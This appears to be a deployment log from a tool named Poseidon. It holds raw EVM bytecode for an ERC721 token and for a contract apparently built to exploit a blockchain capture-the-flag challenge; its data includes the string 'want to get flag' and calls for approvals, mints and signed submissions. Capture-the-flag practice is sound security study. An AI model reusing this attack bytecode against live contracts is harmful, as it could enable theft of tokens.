0040161058490612233565b60405180910390fd5b8073ffffffffffffffffffffffffffffffffffffffff166105ac610ca3565b73ffffffffffffffffffffffffffffffffffffffff1614806105db57506105da816105d5610ca3565b610a51565b5b61061a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610611906122c5565b60405180910390fd5b6106248383610cab565b505050565b61063a610634610ca3565b82610d64565b610679576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161067090612357565b60405180910390fd5b610684838383610df9565b505050565b6106916110f2565b61069b8282611170565b5050565b6106ba83838360405180602001604052806000815250610987565b505050565b6000600860009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff163373ffffffffffffffffffffffffffffffffffffffff160361074057600a60009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1690506107e5565b600760009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff163373ffffffffffffffffffffffffffffffffffffffff16036107bf57600760009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1690506107e5565b600960009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1690505b919050565b60008073ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff160361085a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610851906123e9565b60405180910390fd5b600360008373ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020549050919050565b6108a96110f2565b6108b3600061138d565b565b6000600660009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16905090565b6060600180546108ee90612190565b80601f016020809104026020016040519081016040528092919081815260200182805461091a90612190565b80156109675780601f1061093c57610100808354040283529160200191610967565b820191906000526020600020905b81548152906001019060200180831161094a57829003601f168201915b5050505050905090565b61098361097c610ca3565b8383611453565b5050565b610998610992610ca3565b83610d64565b6109d7576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016109ce90612357565b60405180910390fd5b6109e3848484846115bf565b50505050565b60606109f482610bd2565b60006109fe61161b565b90506000815111610a1e5760405180602001604052806000815250610a49565b80610a2884611632565b604051602001610a39929190612445565b6040516020818303038152906040525b915050919050565b6000600560008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008373ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060009054906101000a900460ff16905092915050565b610aed6110f2565b600073ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff1603610b5c576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610b53906124db565b60405180910390fd5b610b658161138d565b50565b60007f01ffc9a7000000000000000000000000000000000000000000000000000000007bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916827bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916149050919050565b610bdb81611700565b610c1a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610c1190612547565b60405180910390fd5b50565b600080610c2983611741565b9050600073ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff1603610c9a576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610c9190612547565b60405180910390fd5b80915050919050565b600033905090565b816004600083815260200190815260200160002060006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550808273ffffffffffffffffffffffffffffffffffffffff16610d1e83610c1d565b73ffffffffffffffffffffffffffffffffffffffff167f8c5be1e5ebec7d5bd14f71427d1e84f3dd0314c0f7b2291e5b200ac8c7c3b92560405160405180910390a45050565b600080610d7083610c1d565b90508073ffffffffffffffffffffffffffffffffffffffff168473ffffffffffffffffffffffffffffffffffffffff161480610db25750610db18185610a51565b5b80610df057508373ffffffffffffffffffffffffffffffffffffffff16610dd8846104cc565b73ffffffffffffffffffffffffffffffffffffffff16145b91505092915050565b8273ffffffffffffffffffffffffffffffffffffffff16610e1982610c1d565b73ffffffffffffffffffffffffffffffffffffffff1614610e6f576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610e66906125d9565b60405180910390fd5b600073ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff1603610ede576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610ed59061266b565b60405180910390fd5b610eeb838383600161177e565b8273ffffffffffffffffffffffffffffffffffffffff16610f0b82610c1d565b73ffffffffffffffffffffffffffffffffffffffff1614610f61576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401610f58906125d9565b60405180910390fd5b6004600082815260200190815260200160002060006101000a81549073ffffffffffffffffffffffffffffffffffffffff02191690556001600360008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020600082825403925050819055506001600360008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008282540192505081905550816002600083815260200190815260200160002060006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550808273ffffffffffffffffffffffffffffffffffffffff168473ffffffffffffffffffffffffffffffffffffffff167fddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef60405160405180910390a46110ed83838360016118a4565b505050565b6110fa610ca3565b73ffffffffffffffffffffffffffffffffffffffff166111186108b5565b73ffffffffffffffffffffffffffffffffffffffff161461116e576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401611165906126d7565b60405180910390fd5b565b600073ffffffffffffffffffffffffffffffffffffffff168273ffffffffffffffffffffffffffffffffffffffff16036111df576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016111d690612743565b60405180910390fd5b6111e881611700565b15611228576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161121f906127af565b60405180910390fd5b61123660008383600161177e565b61123f81611700565b1561127f576040517f08c379a0000000000000000000000000000000000000000000000000000000008152600401611276906127af565b60405180910390fd5b6001600360008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008282540192505081905550816002600083815260200190815260200160002060006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550808273ffffffffffffffffffffffffffffffffffffffff16600073ffffffffffffffffffffffffffffffffffffffff167fddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef60405160405180910390a46113896000838360016118a4565b5050565b6000600660009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16905081600660006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055508173ffffffffffffffffffffffffffffffffffffffff168173ffffffffffffffffffffffffffffffffffffffff167f8be0079c531659141344cd1fd0a4f28419497f9722a3daafe3b4186f6b6457e060405160405180910390a35050565b8173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff16036114c1576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016114b89061281b565b60405180910390fd5b80600560008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060008473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16815260200190815260200160002060006101000a81548160ff0219169083151502179055508173ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff167f17307eab39ab6107e8899845ad3d59bd9653f200f220920489ca2b5937696c31836040516115b29190611c5b565b60405180910390a3505050565b6115ca848484610df9565b6115d6848484846118aa565b611615576040517f08c379a000000000000000000000000000000000000000000000000000000000815260040161160c906128ad565b60405180910390fd5b50505050565b606060405180602001604052806000815250905090565b60606000600161164184611a31565b01905060008167ffffffffffffffff8111156116605761165f611f73565b5b6040519080825280601f01601f1916602001820160405280156116925781602001600182028036833780820191505090505b509050600082602001820190505b6001156116f5578080600190039150507f3031323334353637383961626364656600000000000000000000000000000000600a86061a8153600a85816116e9576116e86128cd565b5b049450600085036116a0575b819350505050919050565b60008073ffffffffffffffffffffffffffffffffffffffff1661172283611741565b73ffffffffffffffffffffffffffffffffffffffff1614159050919050565b60006002600083815260200190815260200160002060009054906101000a900473ffffffffffffffffffffffffffffffffffffffff169050919050565b600181111561189e57600073ffffffffffffffffffffffffffffffffffffffff168473ffffffffffffffffffffffffffffffffffffffff16146118125780600360008673ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001908152602001600020600082825461180a919061292b565b925050819055505b600073ffffffffffffffffffffffffffffffffffffffff168373ffffffffffffffffffffffffffffffffffffffff161461189d5780600360008573ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020019081526020016000206000828254611895919061295f565b925050819055505b5b50505050565b50505050565b60006118cb8473ffffffffffffffffffffffffffffffffffffffff16611b84565b15611a24578373ffffffffffffffffffffffffffffffffffffffff1663150b7a026118f4610ca3565b8786866040518563ffffffff1660e01b815260040161191694939291906129e8565b6020604051808303816000875af192505050801561195257506040513d601f19601f8201168201806040525081019061194f9190612a49565b60015b6119d4573d8060008114611982576040519150601f19603f3d011682016040523d82523d6000602084013e611987565b606091505b5060008151036119cc576040517f08c379a00000000000000000000000000000000000000000000000000000000081526004016119c3906128ad565b60405180910390fd5b805181602001fd5b63150b7a0260e01b7bffffffffffffffffffffffffffffffffffffffffffffffffffffffff1916817bffffffffffffffffffffffffffffffffffffffffffffffffffffffff191614915050611a29565b600190505b949350505050565b600080600090507a184f03e93ff9f4daa797ed6e38ed64bf6a1f0100000000000000008310611a8f577a184f03e93ff9f4daa797ed6e38ed64bf6a1f0100000000000000008381611a8557611a846128cd565b5b0492506040810190505b6d04ee2d6d415b85acef81000000008310611acc576d04ee2d6d415b85acef81000000008381611ac257611ac16128cd565b5b0492506020810190505b662386f26fc100008310611afb57662386f26fc100008381611af157611af06128cd565b5b0492506010810190505b6305f5e1008310611b24576305f5e1008381611b1a57611b196128cd565b5b0492506008810190505b6127108310611b49576127108381611b3f57611b3e6128cd565b5b0492506004810190505b60648310611b6c5760648381611b6257611b616128cd565b5b0492506002810190505b600a8310611b7b576001810190505b80915050919050565b6000808273ffffffffffffffffffffffffffffffffffffffff163b119050919050565b6000604051905090565b600080fd5b600080fd5b60007fffffffff0000000000000000000000000000000000000000000000000000000082169050919050565b611bf081611bbb565b8114611bfb57600080fd5b50565b600081359050611c0d81611be7565b92915050565b600060208284031215611c2957611c28611bb1565b5b6000611c3784828501611bfe565b91505092915050565b60008115159050919050565b611c5581611c40565b82525050565b6000602082019050611c706000830184611c4c565b92915050565b600081519050919050565b600082825260208201905092915050565b60005b83811015611cb0578082015181840152602081019050611c95565b60008484015250505050565b6000601f19601f8301169050919050565b6000611cd882611c76565b611ce28185611c81565b9350611cf2818560208601611c92565b611cfb81611cbc565b840191505092915050565b60006020820190508181036000830152611d208184611ccd565b905092915050565b6000819050919050565b611d3b81611d28565b8114611d4657600080fd5b50565b600081359050611d5881611d32565b92915050565b600060208284031215611d7457611d73611bb1565b5b6000611d8284828501611d49565b91505092915050565b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000611db682611d8b565b9050919050565b611dc681611dab565b82525050565b6000602082019050611de16000830184611dbd565b92915050565b611df081611dab565b8114611dfb57600080fd5b50565b600081359050611e0d81611de7565b92915050565b60008060408385031215611e2a57611e29611bb1565b5b6000611e3885828601611dfe565b9250506020611e4985828601611d49565b9150509250929050565b600080600060608486031215611e6c57611e6b611bb1565b5b6000611e7a86828701611dfe565b9350506020611e8b86828701611dfe565b9250506040611e9c86828701611d49565b9150509250925092565b600060208284031215611ebc57611ebb611bb1565b5b6000611eca84828501611dfe565b91505092915050565b611edc81611d28565b82525050565b6000602082019050611ef76000830184611ed3565b92915050565b611f0681611c40565b8114611f1157600080fd5b50565b600081359050611f2381611efd565b92915050565b60008060408385031215611f4057611f3f611bb1565b5b6000611f4e85828601611dfe565b9250506020611f5f85828601611f14565b9150509250929050565b600080fd5b600080fd5b7f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b611fab82611cbc565b810181811067ffffffffffffffff82111715611fca57611fc9611f73565b5b80604052505050565b6000611fdd611ba7565b9050611fe98282611fa2565b919050565b600067ffffffffffffffff82111561200957612008611f73565b5b61201282611cbc565b9050602081019050919050565b82818337600083830152505050565b600061204161203c84611fee565b611fd3565b90508281526020810184848401111561205d5761205c611f6e565b5b61206884828561201f565b509392505050565b600082601f83011261208557612084611f69565b5b813561209584826020860161202e565b91505092915050565b600080600080608085870312156120b8576120b7611bb1565b5b60006120c687828801611dfe565b94505060206120d787828801611dfe565b93505060406120e887828801611d49565b925050606085013567ffffffffffffffff81111561210957612108611bb6565b5b61211587828801612070565b91505092959194509250565b6000806040838503121561213857612137611bb1565b5b600061214685828601611dfe565b925050602061215785828601611dfe565b9150509250929050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052602260045260246000fd5b600060028204905060018216806121a857607f821691505b6020821081036121bb576121ba612161565b5b50919050565b7f4552433732313a20617070726f76616c20746f2063757272656e74206f776e6560008201527f7200000000000000000000000000000000000000000000000000000000000000602082015250565b600061221d602183611c81565b9150612228826121c1565b604082019050919050565b6000602082019050818103600083015261224c81612210565b9050919050565b7f4552433732313a20617070726f76652063616c6c6572206973206e6f7420746f60008201527f6b656e206f776e6572206f7220617070726f76656420666f7220616c6c000000602082015250565b60006122af603d83611c81565b91506122ba82612253565b604082019050919050565b600060208201905081810360008301526122de816122a2565b9050919050565b7f4552433732313a2063616c6c6572206973206e6f7420746f6b656e206f776e6560008201527f72206f7220617070726f76656400000000000000000000000000000000000000602082015250565b6000612341602d83611c81565b915061234c826122e5565b604082019050919050565b6000602082019050818103600083015261237081612334565b9050919050565b7f4552433732313a2061646472657373207a65726f206973206e6f74206120766160008201527f6c6964206f776e65720000000000000000000000000000000000000000000000602082015250565b60006123d3602983611c81565b91506123de82612377565b604082019050919050565b60006020820190508181036000830152612402816123c6565b9050919050565b600081905092915050565b600061241f82611c76565b6124298185612409565b9350612439818560208601611c92565b80840191505092915050565b60006124518285612414565b915061245d8284612414565b91508190509392505050565b7f4f776e61626c653a206e6577206f776e657220697320746865207a65726f206160008201527f6464726573730000000000000000000000000000000000000000000000000000602082015250565b60006124c5602683611c81565b91506124d082612469565b604082019050919050565b600060208201905081810360008301526124f4816124b8565b9050919050565b7f4552433732313a20696e76616c696420746f6b656e2049440000000000000000600082015250565b6000612531601883611c81565b915061253c826124fb565b602082019050919050565b6000602082019050818103600083015261256081612524565b9050919050565b7f4552433732313a207472616e736665722066726f6d20696e636f72726563742060008201527f6f776e6572000000000000000000000000000000000000000000000000000000602082015250565b60006125c3602583611c81565b91506125ce82612567565b604082019050919050565b600060208201905081810360008301526125f2816125b6565b9050919050565b7f4552433732313a207472616e7366657220746f20746865207a65726f2061646460008201527f7265737300000000000000000000000000000000000000000000000000000000602082015250565b6000612655602483611c81565b9150612660826125f9565b604082019050919050565b6000602082019050818103600083015261268481612648565b9050919050565b7f4f776e61626c653a2063616c6c6572206973206e6f7420746865206f776e6572600082015250565b60006126c1602083611c81565b91506126cc8261268b565b602082019050919050565b600060208201905081810360008301526126f0816126b4565b9050919050565b7f4552433732313a206d696e7420746f20746865207a65726f2061646472657373600082015250565b600061272d602083611c81565b9150612738826126f7565b602082019050919050565b6000602082019050818103600083015261275c81612720565b9050919050565b7f4552433732313a20746f6b656e20616c7265616479206d696e74656400000000600082015250565b6000612799601c83611c81565b91506127a482612763565b602082019050919050565b600060208201905081810360008301526127c88161278c565b9050919050565b7f4552433732313a20617070726f766520746f2063616c6c657200000000000000600082015250565b6000612805601983611c81565b9150612810826127cf565b602082019050919050565b60006020820190508181036000830152612834816127f8565b9050919050565b7f4552433732313a207472616e7366657220746f206e6f6e20455243373231526560008201527f63656976657220696d706c656d656e7465720000000000000000000000000000602082015250565b6000612897603283611c81565b91506128a28261283b565b604082019050919050565b600060208201905081810360008301526128c68161288a565b9050919050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052601260045260246000fd5b7f4e487b7100000000000000000000000000000000000000000000000000000000600052601160045260246000fd5b600061293682611d28565b915061294183611d28565b9250828203905081811115612959576129586128fc565b5b92915050565b600061296a82611d28565b915061297583611d28565b925082820190508082111561298d5761298c6128fc565b5b92915050565b600081519050919050565b600082825260208201905092915050565b60006129ba82612993565b6129c4818561299e565b93506129d4818560208601611c92565b6129dd81611cbc565b840191505092915050565b60006080820190506129fd6000830187611dbd565b612a0a6020830186611dbd565b612a176040830185611ed3565b8181036060830152612a2981846129af565b905095945050505050565b600081519050612a4381611be7565b92915050565b600060208284031215612a5f57612a5e611bb1565b5b6000612a6d84828501612a34565b9150509291505056fea2646970667358221220fdbeed55f866252f7841c4221ee6ecd1be8f2bb2241a6226cc4156eea10c55fa64736f6c63430008100033
2022-11-06 10:45:19.808 | INFO     | Poseidon.Blockchain:DeployContract:418 - 
[Account][DeployContract]
[TransactionHash]0x7cd2dd1c1a87fbd424d766f6994e2124aaccbff3be82de6cbe9013a55c03e3f6
[Txn]{
  "chainId": 8888,
  "from": "0x2f7CcF235768B35e0ba171d7Fa60690EF35e79ba",
  "nonce": 0,
  "value": 0,
  "gasPrice": 1200000000,
  "gas": 4260667,
  "data": "0x60806040523480156200001157600080fd5b50604051620056f7380380620056f7833981810160405281019062000037919062000856565b806000806101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663cee092e86040518163ffffffff1660e01b8152600401602060405180830381865afa158015620000e3573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190620001099190620008cd565b600160006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a22cb46560008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016040518363ffffffff1660e01b8152600401620001c99291906200092d565b600060405180830381600087803b158015620001e457600080fd5b505af1158015620001f9573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663144c7cc76040518163ffffffff1660e01b8152600401602060405180830381865afa15801562000269573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906200028f91906200099f565b600260006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663095ea7b360008054906101000a900473ffffffffffffffffffffffffffffffffffffffff167fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff6040518363ffffffff1660e01b81526004016200036e929190620009ec565b6020604051808303816000875af11580156200038e573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190620003b4919062000a4a565b5060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16632b7ac3f36040518163ffffffff1660e01b8152600401602060405180830381865afa15801562000421573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019062000447919062000ac1565b600360006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff16021790555060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600360009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1633604051620004da90620007de565b620004e89392919062000af3565b604051809103906000f08015801562000505573d6000803e3d6000fd5b50600460006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff160217905550600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166340c10f193060016040518363ffffffff1660e01b8152600401620005a692919062000b7d565b600060405180830381600087803b158015620005c157600080fd5b505af1158015620005d6573d6000803e3d6000fd5b50505050600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166340c10f193060026040518363ffffffff1660e01b81526004016200063a92919062000bed565b600060405180830381600087803b1580156200065557600080fd5b505af11580156200066a573d6000803e3d6000fd5b50505050600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff166340c10f193060036040518363ffffffff1660e01b8152600401620006ce92919062000c5d565b600060405180830381600087803b158015620006e957600080fd5b505af1158015620006fe573d6000803e3d6000fd5b50505050600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663a22cb4653360016040518363ffffffff1660e01b8152600401620007629291906200092d565b600060405180830381600087803b1580156200077d57600080fd5b505af115801562000792573d6000803e3d6000fd5b5050505033600560006101000a81548173ffffffffffffffffffffffffffffffffffffffff021916908373ffffffffffffffffffffffffffffffffffffffff1602179055505062000c8a565b613463806200229483390190565b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b60006200081e82620007f1565b9050919050565b620008308162000811565b81146200083c57600080fd5b50565b600081519050620008508162000825565b92915050565b6000602082840312156200086f576200086e620007ec565b5b60006200087f848285016200083f565b91505092915050565b6000620008958262000811565b9050919050565b620008a78162000888565b8114620008b357600080fd5b50565b600081519050620008c7816200089c565b92915050565b600060208284031215620008e657620008e5620007ec565b5b6000620008f684828501620008b6565b91505092915050565b6200090a8162000811565b82525050565b60008115159050919050565b620009278162000910565b82525050565b6000604082019050620009446000830185620008ff565b6200095360208301846200091c565b9392505050565b6000620009678262000811565b9050919050565b62000979816200095a565b81146200098557600080fd5b50565b60008151905062000999816200096e565b92915050565b600060208284031215620009b857620009b7620007ec565b5b6000620009c88482850162000988565b91505092915050565b6000819050919050565b620009e681620009d1565b82525050565b600060408201905062000a036000830185620008ff565b62000a126020830184620009db565b9392505050565b62000a248162000910565b811462000a3057600080fd5b50565b60008151905062000a448162000a19565b92915050565b60006020828403121562000a635762000a62620007ec565b5b600062000a738482850162000a33565b91505092915050565b600062000a898262000811565b9050919050565b62000a9b8162000a7c565b811462000aa757600080fd5b50565b60008151905062000abb8162000a90565b92915050565b60006020828403121562000ada5762000ad9620007ec565b5b600062000aea8482850162000aaa565b91505092915050565b600060608201905062000b0a6000830186620008ff565b62000b196020830185620008ff565b62000b286040830184620008ff565b949350505050565b6000819050919050565b6000819050919050565b600062000b6562000b5f62000b598462000b30565b62000b3a565b620009d1565b9050919050565b62000b778162000b44565b82525050565b600060408201905062000b946000830185620008ff565b62000ba3602083018462000b6c565b9392505050565b6000819050919050565b600062000bd562000bcf62000bc98462000baa565b62000b3a565b620009d1565b9050919050565b62000be78162000bb4565b82525050565b600060408201905062000c046000830185620008ff565b62000c13602083018462000bdc565b9392505050565b6000819050919050565b600062000c4562000c3f62000c398462000c1a565b62000b3a565b620009d1565b9050919050565b62000c578162000c24565b82525050565b600060408201905062000c746000830185620008ff565b62000c83602083018462000c4c565b9392505050565b6115fa8062000c9a6000396000f3fe608060405234801561001057600080fd5b50600436106100575760003560e01c8063150b7a021461005c5780635ac174d01461008c578063772b508314610096578063bb3ee56d146100b4578063e4db78d7146100be575b600080fd5b61007660048036038101906100719190610c73565b6100da565b6040516100839190610d31565b60405180910390f35b6100946100ee565b005b61009e61033c565b6040516100ab9190610d65565b60405180910390f35b6100bc610492565b005b6100d860048036038101906100d39190610de5565b610652565b005b600063150b7a0260e01b9050949350505050565b60008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16635764950f600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016105396040518463ffffffff1660e01b815260040161017093929190610ec7565b600060405180830381600087803b15801561018a57600080fd5b505af115801561019e573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16636495b22860016040518263ffffffff1660e01b81526004016101fc9190610efe565b600060405180830381600087803b15801561021657600080fd5b505af115801561022a573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16636495b22860016040518263ffffffff1660e01b81526004016102889190610efe565b600060405180830381600087803b1580156102a257600080fd5b505af11580156102b6573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663473ca96c6040518163ffffffff1660e01b8152600401600060405180830381600087803b15801561032257600080fd5b505af1158015610336573d6000803e3d6000fd5b50505050565b6000806040518060600160405280600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001600381526020016001815250905060006040518060a001604052806003815260200160018152602001600560009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020013073ffffffffffffffffffffffffffffffffffffffff1681526020016040518060400160405280601081526020017f77616e7420746f2067657420666c61670000000000000000000000000000000081525081525090506000816040015182606001518484602001518560800151604051602001610471959493929190611194565b60405160208183030381529060405280519060200120905080935050505090565b600260009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16633884d6356040518163ffffffff1660e01b8152600401600060405180830381600087803b1580156104fc57600080fd5b505af1158015610510573d6000803e3d6000fd5b5050505060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff16636495b22860006040518263ffffffff1660e01b815260040161056e919061128d565b600060405180830381600087803b15801561058857600080fd5b505af115801561059c573d6000803e3d6000fd5b50505050600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663095ea7b360008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1660016040518363ffffffff1660e01b815260040161061e9291906112a8565b600060405180830381600087803b15801561063857600080fd5b505af115801561064c573d6000803e3d6000fd5b50505050565b60008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663acfee8ed600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff166001806040518463ffffffff1660e01b81526004016106d2939291906112d1565b6020604051808303816000875af11580156106f1573d6000803e3d6000fd5b505050506040513d601f19601f82011682018060405250810190610715919061131d565b5060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663acfee8ed600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff16600360016040518463ffffffff1660e01b815260040161079793929190611385565b6020604051808303816000875af11580156107b6573d6000803e3d6000fd5b505050506040513d601f19601f820116820180604052508101906107da919061131d565b5060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663acfee8ed600160009054906101000a900473ffffffffffffffffffffffffffffffffffffffff166001806040518463ffffffff1660e01b815260040161085b939291906112d1565b6020604051808303816000875af115801561087a573d6000803e3d6000fd5b505050506040513d601f19601f8201168201806040525081019061089e919061131d565b5060006040518060600160405280600460009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff168152602001600381526020016001815250905060006040518060a001604052806003815260200160018152602001600560009054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1681526020013073ffffffffffffffffffffffffffffffffffffffff1681526020016040518060400160405280601081526020017f77616e7420746f2067657420666c6167000000000000000000000000000000008152508152509050600060405180604001604052808760ff16815260200160405180604001604052808881526020018781525081525090506000604051806040016040528084815260200183815250905060008054906101000a900473ffffffffffffffffffffffffffffffffffffffff1673ffffffffffffffffffffffffffffffffffffffff1663b40da948826040518263ffffffff1660e01b8152600401610a4a91906115a2565b600060405180830381600087803b158015610a6457600080fd5b505af1158015610a78573d6000803e3d6000fd5b5050505050505050505050565b6000604051905090565b600080fd5b600080fd5b600073ffffffffffffffffffffffffffffffffffffffff82169050919050565b6000610ac482610a99565b9050919050565b610ad481610ab9565b8114610adf57600080fd5b50565b600081359050610af181610acb565b92915050565b6000819050919050565b610b0a81610af7565b8114610b1557600080fd5b50565b600081359050610b2781610b01565b92915050565b600080fd5b600080fd5b6000601f19601f8301169050919050565b7f4e487b7100000000000000000000000000000000000000000000000000000000600052604160045260246000fd5b610b8082610b37565b810181811067ffffffffffffffff82111715610b9f57610b9e610b48565b5b80604052505050565b6000610bb2610a85565b9050610bbe8282610b77565b919050565b600067ffffffffffffffff821115610bde57610bdd610b48565b5b610be782610b37565b9050602081019050919050565b82818337600083830152505050565b6000610c16610c1184610bc3565b610ba8565b905082815260208101848484011115610c3257610c31610b32565b5b610c3d848285610bf4565b509392505050565b600082601f830112610c5a57610c59610b2d565b5b8135610c6a848260208601610c03565b91505092915050565b60008060008060808587031215610c8d57610c8c610a8f565b5b6000610c9b87828801610ae2565b9450506020610cac87828801610ae2565b9350506040610cbd87828801610b18565b925050606085013567ffffffffffffffff811115610cde57610cdd610a94565b5b610cea87828801610c45565b91505092959194509250565b60007fffffffff0000000000000000000000000000000000000000000000000000000082169050919050565b610d2b81610cf6565b82525050565b6000602082019050610d466000830184610d22565b92915050565b6000819050919050565b610d5f81610d4c565b82525050565b6000602082019050610d7a6000830184610d56565b92915050565b600060ff82169050919050565b610d9681610d80565b8114610da157600080fd5b50565b600081359050610db381610d8d565b92915050565b610dc281610d4c565b8114610dcd57600080fd5b50565b600081359050610ddf81610db9565b92915050565b600080600060608486031215610dfe57610dfd610a8f565b5b6000610e0c86828701610da4565b9350506020610e1d86828701610dd0565b9250506040610e2e86828701610dd0565b9150509250925092565b610e4181610